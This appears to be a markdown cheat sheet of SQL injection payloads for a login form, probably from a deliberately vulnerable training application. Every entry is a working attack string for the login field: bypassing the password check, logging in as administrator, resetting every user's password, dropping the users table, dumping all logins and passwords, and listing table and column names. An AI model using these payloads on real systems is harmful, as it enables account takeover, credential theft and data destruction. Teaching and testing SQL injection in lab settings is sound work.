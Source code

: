 #### bypass password check:

login: 

	alice'--
	
password: any value

#### Log as administrator without password check:

login: 

	alice'; select LOGIN, FIRST_NAME, LAST_NAME, true as IS_ADMIN from USERS where login='alice'--
	
password: any value

#### update password of all users :
login: 

	alice'; update USERS set password='qwerty'--

password: any value

#### update password of one users :
login: 

	alice'; update USERS set password='qwerty' where user='bob'--

password: any value

#### Drop a table :
login: 

	alice'; DROP TABLE users CASCADE --

password: any value

#### Extract list of users/password :
login:

	alice'; select 'alice' as LOGIN, (SELECT GROUP_CONCAT(login) FROM USERS) as FIRST_NAME, (SELECT GROUP_CONCAT(password) FROM USERS) as LAST_NAME, password, is_admin from USERS where login='alice'--

password: any value

#### update password of one users :
login:

	alice'; update USERS set password='qwerty' where user='bob'--

password: any value


#### List SQL tables and columns names:

login:

	alice'; select 'alice' as LOGIN, (SELECT  GROUP_CONCAT(DISTINCT CONCAT(TABLE_NAME, '.', COLUMN_NAME) order by TABLE_NAME) FROM INFORMATION_SCHEMA.SYSTEM_COLUMNS) as FIRST_NAME, LAST_NAME, PASSWORD, IS_ADMIN from USERS where login='alice'--
